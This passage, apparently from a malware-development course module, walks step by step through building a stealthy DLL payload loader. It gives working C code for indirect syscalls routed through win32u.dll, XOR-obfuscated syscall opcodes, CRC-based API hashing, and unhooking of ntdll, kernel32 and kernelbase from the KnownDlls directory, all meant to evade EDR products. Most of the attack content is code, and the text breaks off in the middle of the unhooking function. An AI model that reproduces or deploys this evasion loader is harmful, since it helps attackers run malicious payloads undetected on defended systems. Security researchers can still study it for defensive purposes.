



Leading up to this module, the course has covered various individual evasion techniques but hasn't integrated them into practical real-world projects. However, in this module, readers will acquire the skills to develop a reliable and stealthy DLL payload loader. This module will not only introduce new concepts but also enhance previously taught evasion techniques, resulting in a more comprehensive and effective approach for each method.
The payload loader to be created will take the form of a DLL file for several reasons:
DLLs can be discreetly loaded and executed by legitimate applications while they are running, rendering them less conspicuous compared to standalone EXE files.
They can be effectively used in DLL search order exploits, such as DLL sideloading.
DLLs offer better opsec persistence approaches when sideloaded.
With that being said, the next section will dive into the loader's features.
The loader being built will have the following features:
Indirect-Syscalls using an improved HellsHall implementation.
Dll Unhooking via the \KnownDlls\ directory without using RWX memory permissions.
Payload injection by chunking, possibly evading EDR events filters.
Using custom AES encryption library.
Executing payload via Thread Pool APIs.
Obfuscating IAT using API hashing and API camouflage.
CRT library independent.
HellsHall, introduced in Module 89: Indirect Syscalls - HellsHall,
serves the purpose of evading user-land hooking through the utilization
of indirect syscalls. It accomplishes this by redirecting execution to a
syscall instruction located within ntdll.dll, rather than executing it directly from the implementation's memory.
The DLL loader we're developing will leverage HellsHall, with a
slight modification applied to it. This modification is related to the
unhooking routine that will be using the PAGE_READWRITE (RW) memory permission, instead of using the PAGE_EXECUTE_READWRITE (RWX) permission. However, this choice comes with a limitation: this makes it impossible to execute anything within ntdll.dll's address space.
In simpler terms, attempting to jump to a syscall instruction in ntdll.dll will trigger a STATUS_ACCESS_VIOLATION
exception because an attempt was made to execute code in a
non-executable memory region. To resolve this issue, the loader will
need to find a syscall instruction situated outside of ntdll.dll's address space.
To do this, the win32u.dll library will be used which contains syscall functions that have syscall instructions that our loader can leverage.
The win32u.dll library is a component of the Win32 subsystem, offering a range of user-mode graphics-related functions. Within win32u.dll, there are syscall functions that have syscall
instructions that our loader can use when executing HellsHall. With
that in mind, invoking a syscall within the loader will now take the
following form:

Opening win32u.dll using the HxD binary editor allows one to see the syscall ret opcodes (0F05C3) which are the opcodes that our loader will jump to.
The new HellsHall implementation will contain the following functions:
A function that will calculate all the required virtual addresses of a
specified DLL module. This function will be called twice, once for ntdll.dll and the other for win32u.dll.
A function that will search win32u.dll's address space for syscall and ret instructions.
A function that will search ntdll.dll's address space for the specified syscall's System Service Number (SSN).
Given the critical role of win32u.dll in the new
HellsHall implementation, it is crucial to ensure the DLL is loaded in
the local process before proceeding with any other actions. While it is
possible to load win32u.dll at runtime using the LoadLibrary WinAPI, a better approach is to load it statically via the IAT of our implementation.
The function AddWin32uToIat shown below leverages the SHGetFolderPathW WinAPI, which is exported from the shell32.dll DLL. Notably, shell32.dll itself loads the win32u.dll DLL for its internal functions, thus ensuring that win32u.dll will also be loaded upon our DLL file is loaded into a process.
// This function loads win32u.dll into the IAT
VOID AddWin32uToIat() {
WCHAR szPath[MAX_PATH] = { 0 };
SHGetFolderPathW(NULL, CSIDL_MYVIDEO, NULL, NULL, szPath);
}
Part of our requirement in the updated HellsHall is to access exported functions by the ntdll and win32u DLLs. The MODULE_CONFIG structure is used for ease of accessing a DLL's virtual addresses without having to calculate it repeatedly. The MODULE_CONFIG structure is defined as follows:
typedef struct _MODULE_CONFIG
{
PDWORD pdwArrayOfAddresses; // The VA of the array of addresses
of the DLL's exported functions [BaseAddress +
IMAGE_EXPORT_DIRECTORY.AddressOfFunctions]
PDWORD pdwArrayOfNames; // The VA of the array of names of
the DLL's exported functions [BaseAddress +
IMAGE_EXPORT_DIRECTORY.AddressOfNames]
PWORD pwArrayOfOrdinals; // The VA of the array of ordinals
of the DLL's exported functions [BaseAddress +
IMAGE_EXPORT_DIRECTORY.AddressOfNameOrdinals]
DWORD dwNumberOfNames; // The number of exported functions
of the DLL
[IMAGE_EXPORT_DIRECTORY.NumberOfNames]
ULONG_PTR uModule; // The base address of the DLL -
required to calculate future VAs [BaseAddress]
BOOLEAN bInitialized; // Set to TRUE if all members are
initialized
} MODULE_CONFIG, *PMODULE_CONFIG;
Given that two DLL libraries are involved in the updated HellsHall implementation, it's necessary to define two global MODULE_CONFIG structure variables.
// Global variables
MODULE_CONFIG g_NtdllConf = { 0 };
MODULE_CONFIG g_Win32uConf = { 0 };
The InitDllsConfigStructs function initializes g_NtdllConf and g_Win32uConf. It takes two parameters and returns TRUE when all members of the structure are populated; otherwise, it returns FALSE. The function's parameters are detailed below:
pModuleConf - A pointer to a MODULE_CONFIG structure to populate.
uBaseAddress - A DLL's base address for populating the MODULE_CONFIG structure.
BOOL InitDllsConfigStructs(OUT
PMODULE_CONFIG pModuleConf, IN ULONG_PTR uBaseAddress) {
if ((pModuleConf->uModule = uBaseAddress) == NULL)
return FALSE;
// Fetching the NT headers of the DLL
PIMAGE_NT_HEADERS pImgNtHdrs =
(PIMAGE_NT_HEADERS)(pModuleConf->uModule +
((PIMAGE_DOS_HEADER)pModuleConf->uModule)->e_lfanew);
if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return FALSE;
// Fetching the export directory of the DLL
PIMAGE_EXPORT_DIRECTORY pImgExpDir =
(PIMAGE_EXPORT_DIRECTORY)(pModuleConf->uModule +
pImgNtHdrs-
>OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
// Initalizing the 'MODULE_CONFIG' structure
pModuleConf->dwNumberOfNames =
pImgExpDir->NumberOfNames;
pModuleConf->pdwArrayOfNames = ( PDWORD )
(pModuleConf->uModule + pImgExpDir->AddressOfNames);
pModuleConf->pdwArrayOfAddresses = ( PDWORD )
(pModuleConf->uModule + pImgExpDir->AddressOfFunctions);
pModuleConf->pwArrayOfOrdinals = ( PWORD )
(pModuleConf->uModule + pImgExpDir->AddressOfNameOrdinals);
// Checking if all members are initialized
if (!pModuleConf->dwNumberOfNames ||
!pModuleConf->pdwArrayOfNames || !pModuleConf->pdwArrayOfAddresses
|| !pModuleConf->pwArrayOfOrdinals)
return FALSE;
pModuleConf->bInitialized = TRUE;
return TRUE;
}
The FetchWin32uSyscallInst function serves the purpose of locating a syscall instruction in the exported functions of win32u.dll that is immediately followed by a ret instruction. FetchWin32uSyscallInst requires one parameter and returns TRUE if it was able to fetch a syscall instruction address. FetchWin32uSyscallInst's required parameter is shown below:
ppSyscallInstAddress - Pointer to a PVOID variable that will be used to hold the address of the syscall instruction found.Additionally, the function incorporates several evasion techniques outlined below:
Syscall obfuscation - The global variable g_SYSCALL_OPCODE is derived from the syscall instruction's opcode (0x050F) XOR'd with 0x25. This operation obscures the original syscall
instruction's opcode, making it less susceptible to detection by static
scanners designed to identify direct syscall attempts. The use of the volatile
keyword ensures that the XOR decryption operation is carried out at
runtime rather than compile time, preventing the static exposure of the syscall instruction's opcode.
Returning different syscall instructions - To enhance evasion, the function tries to return a different syscall instruction each time it is invoked. This behavior is governed by the iSeed and iCounter variables. iSeed represents a randomly generated value during runtime, which the function utilizes to determine when to return. In other words, FetchWin32uSyscallInst will provide the address of the syscall instruction at the iSeed-th position, ensuring that it does not return the first encountered syscall instruction address on each call.
#define SYSCALL_STUB_SIZE 0x20
// The size of a syscall stub is 32-byte
#define RET_SYSCALL_OPCODE 0xC3
volatile unsigned short g_SYSCALL_OPCODE = 0x052A; // 0x050F ^ 0x25
BOOL FetchWin32uSyscallInst(OUT PVOID* ppSyscallInstAddress) {
INT iSeed = rand() % 0x10, // Between 0 and 15
iCounter = 0x00;
// Initialize win32u.dll structure
if (!g_Win32uConf.bInitialized) {
if (!InitDllsConfigStructs(&g_Win32uConf,
GetModuleHandle(L"win32u.dll")))
return FALSE;
}
for (DWORD i = 0; i < g_Win32uConf.dwNumberOfNames; i++) {
PCHAR pcFuncName = (PCHAR)(g_Win32uConf.uModule +
g_Win32uConf.pdwArrayOfNames[i]);
PVOID pFuncAddress = (PVOID)(g_Win32uConf.uModule +
g_Win32uConf.pdwArrayOfAddresses[g_Win32uConf.pwArrayOfOrdinals[i]]);
for (DWORD ii = 0; ii < SYSCALL_STUB_SIZE; ii++){
// Search for 'syscall' instruction
// 'g_SYSCALL_OPCODE' is 0x050F ^ 0x25, thus XOR'ing it with
0x25 now
if (*(unsigned short*)((ULONG_PTR)pFuncAddress + ii) ==
(g_SYSCALL_OPCODE ^ 0x25) && *(BYTE*)((ULONG_PTR)pFuncAddress +
ii + sizeof(unsigned short)) == RET_SYSCALL_OPCODE) {
// Used to determine a random 'syscall' instruction
address
if (iCounter == iSeed) {
*ppSyscallInstAddress =
(PVOID)((ULONG_PTR)pFuncAddress + ii);
break;
}
iCounter++;
}
}
if (*ppSyscallInstAddress)
return TRUE;
}
return FALSE;
}
The final function in the updated HellsHall implementation, called FetchNtSyscall, closely resembles the original one in Module 89: Indirect Syscalls - HellsHall, with a minor modification. In the current version, the FetchNtSyscall function will invoke FetchWin32uSyscallInst to retrieve the address of the syscall instruction from the memory space of win32u.dll rather than searching within ntdll.dll. FetchNtSyscall expects two parameters:
dwSysHash - This parameter represents the hash value of the syscall for which the SSN needs to be fetched.
pNtSys - This is a pointer to an NT_SYSCALL structure that encapsulates all the necessary details for executing an indirect syscall.
The NT_SYSCALL structure is shown below:
typedef struct _NT_SYSCALL
{
DWORD dwSSn; // Syscall number
DWORD dwSyscallHash; // Syscall hash value
PVOID pSyscallInstAddress; // Address of a random 'syscall' instruction in win32u.dll
} NT_SYSCALL, * PNT_SYSCALL;
The FetchNtSyscall function uses a macro called CRCHASH,
which accepts an input string and returns its hash value using the
Cyclic Redundancy Check (CRC) calculation method, as implemented in the CRC32B function provided below.
#define CRC_POLYNOMIAL 0xEDB88320
UINT32 CRC32B(LPCSTR cString)
{
UINT32 uMask = 0x00,
uHash = 0xFFFFFFFF;
INT i = 0x00;
while (cString[i] != 0) {
uHash = uHash ^ (UINT32)cString[i];
for (int ii = 0; ii < 8; ii++) {
uMask = -1 * (uHash & 1);
uHash = (uHash >> 1) ^ (CRC_POLYNOMIAL & uMask);
}
i++;
}
return ~uHash;
}
#define CRCHASH(STR) ( CRC32B( (LPCSTR)STR ) )
FetchNtSyscall returns TRUE if all the structure's members are populated.
#define UP ( -1 * SYSCALL_STUB_SIZE )
#define DOWN SYSCALL_STUB_SIZE
#define SEARCH_RANGE 0xFF
#define MOV1_SYSCALL_OPCODE 0x4C
#define R10_SYSCALL_OPCODE 0x8B
#define RCX_SYSCALL_OPCODE 0xD1
#define MOV2_SYSCALL_OPCODE 0xB8
#define JMP_SYSCALL_OPCODE 0xE9
BOOL FetchNtSyscall(IN DWORD dwSysHash, OUT PNT_SYSCALL pNtSys) {
// Initialize ntdll config
if (!g_NtdllConf.bInitialized) {
if (!InitDllsConfigStructs(&g_NtdllConf, GetModuleHandle(L"ntdll.dll")))
return FALSE;
}
if ((pNtSys->dwSyscallHash = dwSysHash) == NULL)
return FALSE;
for (DWORD i = 0; i < g_NtdllConf.dwNumberOfNames; i++) {
PCHAR pcFuncName = (PCHAR)(g_NtdllConf.uModule + g_NtdllConf.pdwArrayOfNames[i]);
PVOID pFuncAddress = (PVOID)(g_NtdllConf.uModule + g_NtdllConf.pdwArrayOfAddresses[g_NtdllConf.pwArrayOfOrdinals[i]]);
// If syscall hash value found
if (CRCHASH(pcFuncName) == dwSysHash) {
// The syscall is not hooked
if (*((PBYTE)pFuncAddress) == MOV1_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 1) == R10_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 2) == RCX_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 3) == MOV2_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 6) == 0x00
&& *((PBYTE)pFuncAddress + 7) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5);
BYTE low = *((PBYTE)pFuncAddress + 4);
pNtSys->dwSSn = (high << 8) | low;
break; // break for-loop [i]
}
// If hooked - scenario 1
if (*((PBYTE)pFuncAddress) == JMP_SYSCALL_OPCODE) {
for (WORD idx = 1; idx <= SEARCH_RANGE; idx++) {
// check neighboring syscall down
if (*((PBYTE)pFuncAddress + idx * DOWN) == MOV1_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 1 + idx * DOWN) == R10_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 2 + idx * DOWN) == RCX_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 3 + idx * DOWN) == MOV2_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 6 + idx * DOWN) == 0x00
&& *((PBYTE)pFuncAddress + 7 + idx * DOWN) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + idx * DOWN);
BYTE low = *((PBYTE)pFuncAddress + 4 + idx * DOWN);
pNtSys->dwSSn = (high << 8) | low - idx;
break; // break for-loop [idx]
}
// check neighboring syscall up
if (*((PBYTE)pFuncAddress + idx * UP) == MOV1_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 1 + idx * UP) == R10_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 2 + idx * UP) == RCX_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 3 + idx * UP) == MOV2_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 6 + idx * UP) == 0x00
&& *((PBYTE)pFuncAddress + 7 + idx * UP) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + idx * UP);
BYTE low = *((PBYTE)pFuncAddress + 4 + idx * UP);
pNtSys->dwSSn = (high << 8) | low + idx;
break; // break for-loop [idx]
}
}
}
// if hooked - scenario 2
if (*((PBYTE)pFuncAddress + 3) == JMP_SYSCALL_OPCODE) {
for (WORD idx = 1; idx <= SEARCH_RANGE; idx++) {
// check neighboring syscall down
if (*((PBYTE)pFuncAddress + idx * DOWN) == MOV1_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 1 + idx * DOWN) == R10_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 2 + idx * DOWN) == RCX_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 3 + idx * DOWN) == MOV2_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 6 + idx * DOWN) == 0x00
&& *((PBYTE)pFuncAddress + 7 + idx * DOWN) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + idx * DOWN);
BYTE low = *((PBYTE)pFuncAddress + 4 + idx * DOWN);
pNtSys->dwSSn = (high << 8) | low - idx;
break; // break for-loop [idx]
}
// check neighboring syscall up
if (*((PBYTE)pFuncAddress + idx * UP) == MOV1_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 1 + idx * UP) == R10_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 2 + idx * UP) == RCX_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 3 + idx * UP) == MOV2_SYSCALL_OPCODE
&& *((PBYTE)pFuncAddress + 6 + idx * UP) == 0x00
&& *((PBYTE)pFuncAddress + 7 + idx * UP) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + idx * UP);
BYTE low = *((PBYTE)pFuncAddress + 4 + idx * UP);
pNtSys->dwSSn = (high << 8) | low + idx;
break; // break for-loop [idx]
}
}
}
break; // break for-loop [i]
}
}
if (pNtSys->dwSSn == NULL)
return FALSE;
// Search for a 'syscall' instruction in win32u.dll
return FetchWin32uSyscallInst(&pNtSys->pSyscallInstAddress);
}
Since the HellsHall implementation has been finalized, the NT_API structure will be introduced, which will contain all the NT_SYSCALL structures related to the syscalls that will be invoked by the loader.
typedef struct _NT_API {
NT_SYSCALL NtOpenSection; // Unhooking routine
NT_SYSCALL NtMapViewOfSection; // Unhooking routine
NT_SYSCALL NtProtectVirtualMemory; // Injection routine
NT_SYSCALL NtUnmapViewOfSection; // Unhooking routine
NT_SYSCALL NtAllocateVirtualMemory; // Injection routine
NT_SYSCALL NtDelayExecution; // Delay execution
BOOL bInit; // Set to TRUE if initialized.
} NT_API, * PNT_API;
NT_API g_Nt = { 0 }; // Global variable to be used across the loader.
The function InitIndirectSyscalls will be called to populate an NT_API structure. The InitIndirectSyscalls function will call FetchNtSyscall for every NT_SYSCALL structure in NT_API. InitIndirectSyscalls returns a value of TRUE if all the elements within the input NT_API have been populated. The function takes one parameter, Nt, a pointer to an NT_API structure to be populated.
It's important to mention that the syscall hashes, which are necessary for calling FetchNtSyscall,
are generated using the CRC string hashing algorithm that was
introduced earlier. The hash generator program will be made available
alongside the module's source code.
// HASHES
#define NtOpenSection_CRC32 0x709DE3CC
#define NtMapViewOfSection_CRC32 0xA4163EBC
#define NtProtectVirtualMemory_CRC32 0x5C2D1A97
#define NtUnmapViewOfSection_CRC32 0x90483FF6
#define NtAllocateVirtualMemory_CRC32 0xE0762FEB
#define NtDelayExecution_CRC32 0xF5A86278
BOOL InitIndirectSyscalls(OUT PNT_API Nt) {
if (Nt->bInit)
return TRUE;
if (!FetchNtSyscall(NtOpenSection_CRC32, &Nt->NtOpenSection))
return FALSE;
if (!FetchNtSyscall(NtMapViewOfSection_CRC32, &Nt->NtMapViewOfSection))
return FALSE;
if (!FetchNtSyscall(NtProtectVirtualMemory_CRC32, &Nt->NtProtectVirtualMemory))
return FALSE;
if (!FetchNtSyscall(NtUnmapViewOfSection_CRC32, &Nt->NtUnmapViewOfSection))
return FALSE;
if (!FetchNtSyscall(NtAllocateVirtualMemory_CRC32, &Nt->NtAllocateVirtualMemory))
return FALSE;
if (!FetchNtSyscall(NtDelayExecution_CRC32, &Nt->NtDelayExecution))
return FALSE;
Nt->bInit = TRUE;
return TRUE;
}
When unhooking NTDLL was performed in previous modules, they followed the same approach of modifying the .text section of the target DLL to grant it PAGE_EXECUTE_READWRITE memory permissions. This technique allowed us to overwrite .text with the unhooked version while still permitting execution.
In contrast, this module will use an improved technique to avoid the use of RWX memory permissions. The reason behind this technique is that using RWX permissions can be suspicious and may draw the attention of EDR systems.
Additionally, the loader will utilize the \KnownDlls\
directory to retrieve the unhooked versions of the first three DLL
images loaded into the local process. These initial images typically
include ntdll.dll, kernel32.dll, and kernelbase.dll,
which are precisely the areas where EDRs are most vigilant about
detecting user-land hooks. To sidestep the need for RWX permissions, the
loader will instead configure the memory permissions of the target
DLL's .text section as PAGE_READWRITE, which prevents execution. However, before doing so, a Vectored Exception Handler (VEH) will be established. The unhooking routine is outlined in the following diagram.
The MapDllFromKnownDllDir function is shown below which maps the unhooked version of the szDllName DLL into the local process. If the mapping is successful, MapDllFromKnownDllDir returns the base address of the mapped DLL.
LPVOID MapDllFromKnownDllDir(IN PWSTR
szDllName) {
PVOID pModule = NULL;
HANDLE hSection = INVALID_HANDLE_VALUE;
UNICODE_STRING UniString = { 0 };
OBJECT_ATTRIBUTES ObjectiveAttr = { 0 };
SIZE_T sViewSize = NULL;
NTSTATUS STATUS = 0x00;
WCHAR wFullDllPath [MAX_PATH] = { L'\\', L'K', L'n',
L'o', L'w', L'n', L'D', L'l', L'l', L's', L'\\' };
// Construct the dll's path in the knowndlls dir
wcscat(wFullDllPath, szDllName);
// Construct a unicode string array containg the string created earlier
UniString.Buffer = (PWSTR)wFullDllPath;
UniString.Length = UniString.MaximumLength = wcslen(wFullDllPath) *
sizeof(WCHAR);
// Create the object attribute structure required for the NtOpenSection
syscall
InitializeObjectAttributes(&ObjectiveAttr, &UniString,
OBJ_CASE_INSENSITIVE, NULL, NULL);
// Open a section to the knowndll dll
SET_SYSCALL(g_Nt.NtOpenSection);
if (!NT_SUCCESS(STATUS = RunSyscall(&hSection, SECTION_MAP_READ |
SECTION_MAP_EXECUTE, &ObjectiveAttr))) {
return NULL;
}
// Map the section into the local process
SET_SYSCALL(g_Nt.NtMapViewOfSection);
if (!NT_SUCCESS(STATUS = RunSyscall(hSection, NtCurrentProcess(),
&pModule, NULL, NULL, NULL, &sViewSize, ViewUnmap, NULL,
PAGE_READONLY))) {
return NULL;
}
return pModule;
}
Next, we create the UnhookAllLoadedDlls function that serves the purpose of unhooking DLLs such as ntdll.dll, kernel32.dll, and kernelbase.dll. The typical code for UnhookAllLoadedDlls was previously discussed in Module 85: NTDLL Unhooking - From KnownDlls Directory. However, upon discovering the specific details of the local .text section, including its address and size, the UnhookAllLoadedDlls function additionally stores this information in global variables for potential later use by the VEH function.
The function does not utilize the PAGE_EXECUTE_READWRITE or PAGE_EXECUTE_WRITECOPY memory permissions. Instead, it uses the PAGE_READWRITE permission in its initial NtProtectVirtualMemory call. It's worth mentioning that since the UnhookAllLoadedDlls function relies on the g_Nt global variable, it is essential to call InitIndirectSyscalls beforehand to ensure that all syscalls used within UnhookAllLoadedDlls (as well as MapDllFromKnownDllDir) are valid.
#define text_CRC32
0xA21C1EA3 // CRC hash of ".text"
// Global variables
SIZE_T g_sTextSectionSize = NULL;
LPVOID g_pLocalTxtSectionAddress = NULL;
LPVOID g_pKnownDllTxtSectionAddress = NULL;
VOID UnhookAllLoadedDlls(){
NTSTATUS STATUS = 0x00;
PPEB pPeb = (PPEB)__readgsqword(0x60);
PLIST_ENTRY pHeadEntry =
&pPeb->LoaderData->InMemoryOrderModuleList,
pNextEntry = pHeadEntry->Flink;
INT iModules = 0x00; // Will be used as a counter for unhooked
dlls
if (!g_Nt.bInit) {
return;
}
//Skip the local .exe image
pNextEntry = pNextEntry->Flink;
// loop through all the loaded dlls
while (pNextEntry != pHeadEntry && iModules < 3) {
// Getting the dll's name
PLDR_DATA_TABLE_ENTRY pLdrDataTblEntry =
(PLDR_DATA_TABLE_ENTRY)((PBYTE)pNextEntry -
offsetof(LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks));
PUNICODE_STRING pUnicodeDllName =
(PUNICODE_STRING)((PBYTE)&pLdrDataTblEntry->FullDllName +
sizeof(UNICODE_STRING));
// Getting the dll's local base address & load the unhooked
version from \KnownDlls\ dir
LPVOID pKnownDllCopy =
MapDllFromKnownDllDir(pUnicodeDllName->Buffer),
pLocalDllCopy =
(LPVOID)(pLdrDataTblEntry->DllBase);
SIZE_T sTextSectionSize = NULL;
LPVOID pLocalTxtSectionAddress = NULL,
pKnownDllTxtSectionAddress = NULL;
DWORD dwOldProtection = 0x00;
// If both pointers are retrieved
if (pKnownDllCopy && pLocalDllCopy) {
// Fetch the NT headers
PIMAGE_NT_HEADERS pLocalImgNtHdrs =
(PIMAGE_NT_HEADERS)((ULONG_PTR)pLocalDllCopy +
((PIMAGE_DOS_HEADER)pLocalDllCopy)->e_lfanew);
if (pLocalImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
goto _CLEANUP;
PIMAGE_SECTION_HEADER pLocalImgSecHdr =
IMAGE_FIRST_SECTION(pLocalImgNtHdrs);
// Search for the .text section in the local dll
for (int i = 0; i <
pLocalImgNtHdrs->FileHeader.NumberOfSections; i++) {
if (CRCHASH(pLocalImgSecHdr[i].Name) == text_CRC32) {
g_sTextSectionSize = sTextSectionSize =
pLocalImgSecHdr[i].Misc.VirtualSize;
g_pLocalTxtSectionAddress = pLocalTxtSectionAddress =
(LPVOID)((ULONG_PTR)pLocalDllCopy + pLocalImgSecHdr[i].VirtualAddress);
g_pKnownDllTxtSectionAddress = pKnownDllTxtSectionAddress =
(LPVOID)((ULONG_PTR)pKnownDllCopy + pLocalImgSecHdr[i].VirtualAddress);
break;
}
}
// Check if all variables are retrieved
if (!sTextSectionSize || !pLocalTxtSectionAddress ||
!pKnownDllTxtSectionAddress)
goto _CLEANUP;
// Change memory permissions to RW, to allow overwriting
SET_SYSCALL(g_Nt.NtProtectVirtualMemory);
if (!NT_SUCCESS(STATUS = RunSyscall(NtCurrentProcess(),
&pLocalTxtSectionAddress, &sTextSectionSize, PAGE_READWRITE,
&dwOldProtection))) {
goto _CLEANUP;
}
// Overwriting the hooked .text section with the fresh one
memcpy(pLocalTxtSectionAddress, pKnownDllTxtSectionAddress,
sTextSectionSize);
// Reset the memory permissions to the original
